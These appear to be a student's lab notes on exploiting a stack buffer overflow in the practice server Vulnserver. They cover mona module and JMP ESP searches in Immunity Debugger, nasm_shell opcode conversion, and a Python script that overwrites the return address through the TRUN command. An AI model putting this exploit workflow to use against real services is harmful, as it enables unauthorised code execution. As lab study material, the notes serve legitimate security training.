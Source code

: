 
>[!question] How to find the right module ?_?
So when we talk about how to find the right module we are looking for a TLL or something similar that has `no memory protection` like 
no DEP
no Aslr 
no safe SEH

>[!important] Important
>Module with no memory protection 
>To Find that will use Mona Library
>Will use NASM (i.e. 2 convert assembly language to Hex)
>Once we get the Return Address for that module passing the JMP hex will set the Breakppoint


So there's a tool called Mona Modules that we can use with immunity debugger to achieve this 
(i.e. https://github.com/corelan/mona)
 
We have paste the mona.py file in the following location :
C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands

`Immunity Debugger :!mona modules`
As we can the protection setting and it false for the essfunc.dll (i.e. we are looking for something that is attached to the Vulnserver)

Now will find the Opcode equivalent to a JMP 
We are trying to convert Assembly language into Hex code 


Kali Linux :
┌──(root㉿kali)-[/home/kali]
└─# locate nasm_shell
/usr/bin/msf-nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

┌──(root㉿kali)-[/home/kali]
└─# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

nasm > JMP ESP
00000000  FFE4              jmp esp
nasm > 

Now will take this information (i.e. FFE4 )

Immunuty Debugger :
!mona find -s "\xff\xe4" -m essfunc.dll

We are looking for return addresses 
![[Pasted image 20230825154207.png]]

As we got the return pointer address as 625011af 
We are writing the address in reverse for a special reason. So when we are talking about X86 architecture 
we are following something called `Little Endian format.`
X86 stores the lower order byte at the lowest address and the higher order byte at the highest address 
Kali Linux :

#!/usr/bin/python
import sys,socket 

#625011af
shellcode = "A" * 2003 +  "\xaf\x11\x50\x62"

try:
		s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
		s.connect(('192.168.205.135',9999))
		
		s.send(('TRUN /.:/' + shellcode))
		#s.send(('TRUN /.:/' + offset))
		s.close()
except:
		print "Error Connnecting To The Server"
		sys.exit()

Immuinty Debugger :
Press the arrow (i.e. Bluish Black ) and enter the return address (i.e. 625011af)
![[Pasted image 20230825154226.png]]

Hit F2 and it will turn it blue (i.e. set a break-point as running)
We are going to overflow the buffer but if hit this specific spot it will break the program and it pause it till further instructions.



